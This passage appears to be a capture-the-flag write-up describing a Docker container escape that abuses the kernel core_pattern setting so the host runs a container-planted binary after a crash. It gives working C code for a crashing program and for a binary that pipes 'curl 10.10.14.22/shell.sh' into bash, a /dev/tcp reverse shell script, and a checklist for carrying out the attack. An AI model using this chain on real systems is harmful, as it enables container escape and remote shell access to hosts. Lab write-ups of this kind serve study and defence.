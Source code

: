 So in theory if content of `/proc/sys/kernel/core_pattern` is `|/var/lib/docker/overlay2/8bcfb41c623919126e3c477270b89d61ca7848cb8ae498ab341a2ded1828750d/diff/poc2` after core dump host system should execute `poc2` binary and this is inside docker container so totally user controlable!

#### Binary that crash
Taking all wonderful function of `C` language this program writes 100 bytes to 1 byte buffer
```C
int main(void) {
	char buf[1];
	for (int i = 0; i < 100; i++) {
	buf[i] = 1;
	}
	return 0;
}
```

#### Binary that executes the CODE
```C
#include <stdio.h>

int main(void)
{
    system("curl 10.10.14.22/shell.sh | bash");
    return 0;
}
```
Both of binaries have to be compiled with `gcc file -o output_file`

#### Reverse Shell
Content of `shell.sh` which is downloaded from local machine
```bash
#!/bin/bash
bash  -i >&  /dev/tcp/10.10.14.22/1337 0>&1
```

### Executing the attack
Recap:
 - `/proc/sys/kernel/core_pattern` should contain `|/var/lib/docker/overlay2/8bcfb41c623919126e3c477270b89d61ca7848cb8ae498ab341a2ded1828750d/diff/poc2` which is path to binary that download `shell.sh` on the host and execute it.
- `poc2` binary should be in root of the filesystem `/poc2`
- any program that crash on screen /tmp/crash
- Any webserver running hosting `shell.sh`
- listener on port 1337 to catch reverse shell
![untitled](images/18.png)